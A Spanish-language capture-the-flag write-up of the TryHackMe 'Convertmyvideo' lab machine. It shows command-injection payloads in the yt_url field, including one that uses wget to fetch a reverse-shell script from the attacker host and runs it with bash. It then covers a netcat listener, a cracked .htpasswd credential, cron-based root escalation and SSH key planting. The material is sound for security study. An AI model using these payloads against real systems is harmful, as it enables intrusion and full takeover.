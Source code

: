 ```yaml
---
layout: post
title:  "☣THM☣ Convertmyvideo"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```



{: .message}

Es una maquina linux que nos permite explotar una vulnerabilidad que se encuentra en el OWASP Top 10 (2017).

## Enumeración
### Nmap
*Puertos:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*Escaneo mas exhaustivo:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

Luego de fuzzear di con un directorio que es admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)
![Pastedimage20210416201737](https://user-images.githubusercontent.com/76759292/127757710-64e265d5-b99f-4397-9f32-b29238611ffc.png)


## PoC Inyección de comandos

Despues de un rato probando di con una inyección de comando en la parte donde se inserta la url

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)
![Pastedimage20210416210230](https://user-images.githubusercontent.com/76759292/127757723-4dc3ddf8-2de9-4564-bee5-97ab61d011b3.png)


Podemos tambien visualizar la flag desde aqui (Para el espaciado utilizo Input Field Separators que es una variable de separador de campo de entradas):  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)
![Pastedimage20210416211813](https://user-images.githubusercontent.com/76759292/127757727-fc4e3dd1-fd78-45e3-b4d8-106c00b23e09.png)

Podemos visualizar el contenido que tiene admin:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)
![Pastedimage20210416211957](https://user-images.githubusercontent.com/76759292/127757731-3a285cca-4e6f-474d-89e3-6e62d08a27d2.png)

Algo que llama la atencion es el contenido que tiene .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)
![Pastedimage20210416212308](https://user-images.githubusercontent.com/76759292/127757745-e60616cb-5985-48c0-b63c-f9c6d51b228a.png)


```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

Con esto lo podremos crackear ```jesie```  y posteriormente entrar en el panel que nos aparece cuando entramos a /admin. En esta oportunidad iremos por otro vector.

## Shell Inicial

Primero haremos una reverse sencilla con bash y luego nos montamos un servidor con python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Luego ejecutamos la reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)
![Pastedimage20210416213538](https://user-images.githubusercontent.com/76759292/127757751-7f9e8d86-b68b-47a8-8ddd-3a204c9e9554.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

La  primera utilidad a utilizar es ```linpeas```  esta nos muestra lo mismo que sacamos con la inyección de comandos:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


Un script interesante es clean.sh, la idea es basicamente agregar una reverse y esperar que sea ejecutada:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)
![Pastedimage20210521174646](https://user-images.githubusercontent.com/76759292/127757755-383cfbca-aa66-43e0-a23b-57a135cc6f93.png)


En esta imagen se confirma mi teoria que basicamente consiste en que ese script es ejecutado por root mediante una tarea cron:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)
![Pastedimage20210521174719](https://user-images.githubusercontent.com/76759292/127757762-889d4ecd-dce2-4c25-82d0-63334389a4ac.png)


```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

Esto no va con la resolución de la maquina pero me parece interesante el tema del local port forwarding que nos permite a nosotros visualizar servicios que solo puedan verse en la maquina de manera local (Este no es el caso pero suponiendo que nos encontremos mas adelante con esto).

Primero nos generamos un par de llaves con ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)
![Pastedimage20210521180334](https://user-images.githubusercontent.com/76759292/127757767-6490e00f-bc47-4c89-a208-7a4badd90d52.png)


Agregamos nuestra llave al authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)
![Pastedimage20210521180445](https://user-images.githubusercontent.com/76759292/127757768-6ceedccb-bf53-4e71-bcb9-77b6513f795c.png)


Probamos que todo este correcto:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)
![Pastedimage20210521180621](https://user-images.githubusercontent.com/76759292/127757769-49ef382b-cbd0-403f-b77b-e34d1beb161c.png)


Con el siguiente comando le estamos diciendo que queremos que el puerto 80 de la maquina victima sea reflejado en el 8084 de nuestra maquina:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)
![Pastedimage20210521181139](https://user-images.githubusercontent.com/76759292/127757771-a48a1471-51f3-4c4c-88bc-9d0e4e66cfbc.png)


Asi lo podriamos visualizar:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)
![Pastedimage20210521181155](https://user-images.githubusercontent.com/76759292/127757779-2cb3c5c9-5c6f-4230-95ee-3e66f5b4249d.png)


En esta maquina pudimos explotar una inyección de comando y posteriormente abusar de una tarea cron.

